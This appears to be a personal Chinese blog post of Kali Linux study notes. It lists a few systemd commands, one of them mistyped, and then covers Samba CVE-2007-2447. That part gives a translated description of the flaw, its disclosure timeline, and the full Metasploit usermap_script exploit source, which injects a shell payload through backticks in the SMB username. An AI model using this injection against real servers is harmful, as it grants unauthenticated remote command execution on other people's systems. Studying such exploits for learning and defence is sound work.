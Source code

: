 ```yaml
---
layout: post
title: "kali-linux-note"
date: 2017-10-17 11:56:10
image: 'kali-Linux-Destop.jpg'
description: 关于学习kali-Linux的笔记
category: '计算机'
tags:
- 计算机技术
twitter_text: 关于学习kali-Linux的笔记
introduction: 关于学习kali-Linux的笔记
color: '4A3341'
author: 夜雨
---
```


### Systemd

Systemd是一种新的linux系统服务管理器。它替换了init系统，能够管理系统的启动过程和一些系统服务，一旦启动起来，就将监管整个系统。

- 切换至字符界面
  ```sudo systemctl set-default multi-user.target```
- 切换至图形界面
  ```sudo systemctlset-default graphical.target```
- 打开图形界面
  ```sudo init 5```
### Metasploit
#### usermap_script 漏洞相关笔记
- usermap_script：CVE-2007-2447
>利用Samba用户名映射脚本命令执行
>这个模块利用漏洞执行命令，在Samba版本3.0.20到3.0.25rc3当使用非默认用户名映射脚本配置选项。 
>通过指定一个用户名包含shell元字符,攻击者可以执行任意命令。 
>不需要身份验证来利用此漏洞，因为此选项用于在身份验证之前映射用户名
>模块的位置 exploit/multi/samba/usermap_script
>用户输入未转义的参数作为参数传递到/bin/sh，允许远程命令执行
>此漏洞最初是针对匿名呼叫报告的
> 经过Samba开发者的进一步调查，结果是确定了问题更广泛和影响远程打印机和文件共享管理。 根本原因是传递通过MS-RPC提供的未过滤的用户输入在调用定义的外部脚本时调用/bin/sh，在smb.conf中。 
> 然而，不同于"username map script"漏洞，远程文件和打印机管理脚本需要经过身份验证的用户会话。
>
> 漏洞的时间线：
>
> 1. 2007年5月7日：漏洞匿名披露到security@samba.org电子邮件列表中。
> 2. 2007年5月7日：Samba的开发人员Gerald Carter开始响应这个漏洞。
> 3. 2007年5月9日：Samba的开发者Jeremy Allison发布了补丁，用于iDefense测试。
> 4. 2007年5月10日：向vendor-sec邮件列表发布通知。
> 5. 2007年5月14日：公开漏洞信息。

```
##
# $Id: usermap_script.rb 10040 2010-08-18 17:24:46Z jduck $
##

##
# This file is part of the Metasploit Framework and may be subject to
# redistribution and commercial restrictions. Please see the Metasploit
# Framework web site for more information on licensing and terms of use.
# http://metasploit.com/framework/
##

# 这个和Python的import还要C的include一样的作用
require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
# Metasploit3是从Msf::Exploit::Remote中继承的

    Rank = ExcellentRanking

    include Msf::Exploit::Remote::SMB

    # For our customized version of session_setup_ntlmv1
    CONST = Rex::Proto::SMB::Constants
    CRYPT = Rex::Proto::SMB::Crypt

    def initialize(info = {})
        super(update_info(info,
            'Name'           => 'Samba "username map script" Command Execution',
            'Description'    => %q{
                    This module exploits a command execution vulerability in Samba
                versions 3.0.20 through 3.0.25rc3 when using the non-default
                "username map script" configuration option. By specifying a username
                containing shell meta characters, attackers can execute arbitrary
                commands.

                No authentication is needed to exploit this vulnerability since
                this option is used to map usernames prior to authentication!
            },
            'Author'         => [ 'jduck' ],
            'License'        => MSF_LICENSE,
            'Version'        => '$Revision: 10040 $',
            'References'     =>
                [
                    [ 'CVE', '2007-2447' ],
                    [ 'OSVDB', '34700' ],
                    [ 'BID', '23972' ],
                    [ 'URL', 'http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534' ],
                    [ 'URL', 'http://samba.org/samba/security/CVE-2007-2447.html' ]
                ],
            'Platform'       => ['unix'],
            'Arch'           => ARCH_CMD,
            'Privileged'     => true, # root or nobody user
            'Payload'        =>
                {
                    'Space'    => 1024,
                    'DisableNops' => true,
                    'Compat'      =>
                        {
                            'PayloadType' => 'cmd',
                            # *_perl and *_ruby work if they are installed
                            # mileage may vary from system to system..
                        }
                },
            'Targets'        =>
                [
                    [ "Automatic", { } ]
                ],
            'DefaultTarget'  => 0,
            'DisclosureDate' => 'May 14 2007'))

        register_options(
            [
                Opt::RPORT(139)
            ], self.class)
    end


    def exploit

        connect

        # lol?
        username = "/=`nohup " + payload.encoded + "`"
        begin
            simple.client.negotiate(false)
            simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
        rescue ::Timeout::Error, XCEPT::LoginError
            # nothing, it either worked or it didn't ;)
        end

        handler
    end

end
```

